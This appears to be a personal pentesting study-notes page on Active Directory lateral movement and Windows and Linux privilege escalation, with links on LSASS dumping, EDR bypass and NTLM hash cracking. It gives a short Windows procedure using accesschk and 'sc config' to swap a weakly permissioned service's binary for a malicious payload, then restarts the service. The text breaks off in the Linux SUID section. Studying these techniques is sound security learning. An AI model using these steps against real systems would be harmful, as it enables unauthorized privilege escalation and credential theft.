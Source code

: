 AD Lateral Movement: (DA FARE PER DOMANI)

[Lateral Movement - Part 1 [Active Directory Hacking] -- TryHackMe LIVE! (youtube.com)](https://www.youtube.com/watch?v=basSfhSJW0Y)

 Lateral Movement with the .NET Profiler

https://posts.specterops.io/lateral-movement-with-the-net-profiler-8772c86f9523?source=read_next_recirc-----276c3579bba7----0---------------------c723bc44_f3ca_43d8_8346_b4f92bd2d3f6-------

LSASS DUmping DFIR ToolS, bypass EDR Prevention:
 https://www.youtube.com/watch?v=RW3cEdKbC4E

https://www.youtube.com/watch?v=_5NxDqx2i00

[Cracking windows NTLM hash by copying SAM file from windows. | by Harsh Hatej | T3CH | Sep, 2024 | Medium](https://medium.com/h7w/cracking-windows-ntlm-hash-by-copying-sam-file-from-windows-50a40261466d)


**1. Exploiting Weak Service Permissions**

- **Step 1: Identify Services with Weak Permissions**
- Use [AccessChk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) to list services and their permissions:

accesschk.exe -uwcqv "C:\Program Files"

**Step 2: Modify the Service**

- If a service is found with weak permissions, use the `sc config` command to change its executable path to a malicious binary:

sc config [service_name] binPath= "C:\malicious\payload.exe"

**Step 3: Restart the Service**

- Restart the service to execute the malicious binary:

net stop [service_name] net start [service_name]

--- SEE COURSES OF TCM ABOUT PRIV ESC ETC.

--- AFTER DOING ALL WINDOWS AD, DO LINUX:

#source: [hexdump](https://www.youtube.com/watch?v=5Un3ffzokJQ)

![[{B4788B45-B4CF-46D2-967A-F7C6547603C7}.png]]

<iframe width="928" height="522" src="https://www.youtube.com/embed/5Un3ffzokJQ" title="Linux Privilege Escalation – Full Free Course" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>
## Linux Privilege Escalation

**1. SUID and SGID Executables**

- **Step 1: Find SUID/SGID Binaries**
- Use `find` to locate binaries with SUID/SGID bits:
